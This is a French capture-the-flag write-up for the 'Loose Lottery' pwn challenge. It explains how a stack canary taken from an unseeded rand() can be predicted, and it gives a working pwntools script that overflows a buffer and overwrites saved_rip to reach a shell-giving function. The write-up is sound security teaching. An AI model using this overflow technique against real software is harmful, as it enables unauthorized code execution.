 # 1 Loose Lottery

## Recherche de vulnérabilité

On commence par analyser le main dans IDA

![alt text](imgs/image-3.png)

On voit dans un pemier temps que si l'on est un nouvel arrivant, alors on peut faire autant de tirage que l'on veut.  
On voit également que le paramètre fourni à la fonction `tirage` est incrémenté à chaque tour de boucle.

La fonction `tirage` est la suivante:

![alt text](imgs/image-4.png)

Cette fonction nous demande un input, le converti en un `int` et le compare avec une valeur aléatoire.  
Si la comparaison réussie, alors on appelle la fonction `gagne` qui nous donne un shell.  
On se doute qu'il va falloir réussir à appeler cette fonction. 

Le nombre à trouver provient de la fonction `rand()`, ce qui nous donne 1 chance sur 4294967296 de réussir.  
Une attaque par force brute est envisageable mais ce n'est pas l'objectif de ce challenge.

Lorsque l'on cherche des vulnérabilités, on regarde en particulier les fonctions qui récupèrent de la donnée utilisateur.  
Dans notre cas il y a `main` avec la fonction `getc` mais ça ne permet pas de faire grand chose.  
Il y a également `tirage` avec `read` qui permet de controller le contenu d'un buffer.  

Par ailleurs, cette fonction est protégée contre les buffer overflow grace à l'utilisation d'une variable canary.  
Ce canary est définit dans la fonction `init`.  
On voit dans la [documentation](https://man7.org/linux/man-pages/man3/rand.3.html) que si aucune graine n'est fournie (via `srand`), 
alors la valeur **1** est utilisée comme graine.  
Or si l'on connait la graine d'un générateur pseudo aléatoire, on peut calculer tous les nombres générés par la suite.  
Donc ici la valeur du canary est toujours la même et on peut la calculer

```c
#include <stdio.h>
#include <stdlib.h>

void main(){
    srand(1);
    printf("Canary = %d\n", rand());
}
```
![alt text](imgs/image.png)

La taille de la donnée que l'on peut envoyer dans le buffer est contrôllé par la variable `a1` qui provient des paramètres donnés à la fonction.  
Le buffer de destination a une taille fixe de 72 caractètes donc si `tirage` est appelée avec comme argument `a1` suppérieur à 7, alors on peut overflow.

En examinant la fonction `main` on voit qu'il y a un moyen d'appeler `tirage` avec une valeur suppérieure à 7 en faisant 7 tours de boucle.

Le code python suivant devrait alors exploiter cet overflow 

```python
from pwn import *

exe_path = './1_chal'

if args.REMOTE:
    io = remote("lottery.serviel.fr", 1234, ssl=True)
else:
    io = process(exe_path)

io.sendlineafter(b'arrivant ? (y/n)', b'Y')

for i in range(10):
    io.sendlineafter(b'votre choix : ', b'0')
    io.sendlineafter(b'continue ? (y/n)', b'y')

io.sendlineafter(b'votre choix : ', b'A'*80)

io.interactive()
```

## Exploitation

La stratégie d'exploitation va être d'utiliser cet overflow dans la stack pour écraser le `saved_rip` de la stak frame de `tirage`.  
On va la remplacer par l'addresse de la fonction `gagne` qui nous donne directement un terminal.

Mais il faut faire attention à bien remettre le canary dans la stack pour passer le check à la fin de la fonction.  
Pour ça il nous faut trouver l'offset à partir duquel on écrase le canary.  

Heureusement le développeur nous affiche la valeur du canary si elle a bougé. On peut alors overflow avec un pattern reconnaissable pour trouver cet offset.

![alt text](imgs/image-2.png)

0x44 correspond au caractère `D`, le canary est donc à l'offset 72

Il n'y a plus qu'à récupérer l'addresse de `gagne`, pour cela j'utilise l'utilitaire `readelf`, et à trouver l'offset de `saved_rip`

![](imgs/image-1.png)

Pour trouver l'offset de `saved_rip` je place un breakpoint à la fin de la fonction `tirage` au moment de la comparaison du canary (addresse 0x40135C), puis j'affiche la stack à partir du canary

![alt text](imgs/image-5.png)

J'y retrouve bien mon canary, puis on voit un peut après la valeur `0x00000000004014dc` qui correspond à une addresse dans la fonction `main` juste après un appel à `tirage`. C'est ça mon `saved_rip` !  
Il est 24 octets après mon canary.

```python
from pwn import *

io = remote("lottery.serviel.fr", 1234, ssl=True)

# dire que l'on est un nouvel arrivant permet d'entrer dans la boucle qui incrémente nb_tirage
io.sendlineafter(b'arrivant ? (y/n)', b'Y')

# On incrémente nb_tirage pour pouvoir faire un overflow
for i in range(10):
    io.sendlineafter(b'votre choix : ', b'0')
    io.sendlineafter(b'continue ? (y/n)', b'y')

p = b'A'*72
p += p64(1804289383)
p += b'B' * 24
p += p64(0x40127f)

io.sendlineafter(b'votre choix : ',p)

# Si tout va bien on récupère un terminal
io.interactive()
```